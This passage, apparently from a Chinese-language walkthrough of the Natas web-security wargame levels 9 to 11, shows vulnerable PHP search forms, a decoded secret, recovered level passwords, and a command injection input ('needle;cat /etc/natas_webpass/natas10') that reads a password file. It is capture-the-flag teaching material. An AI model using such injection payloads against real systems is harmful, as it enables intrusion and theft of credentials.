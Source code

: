 可用在线工具直接运行php
```php
<?php
echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")))
?>
```

得secret: oubWYf2kBq

```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

## 10. 

source code
```
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```

注入

> needle;cat /etc/natas_webpass/natas10

```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
...
```

## 11.

source code
```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

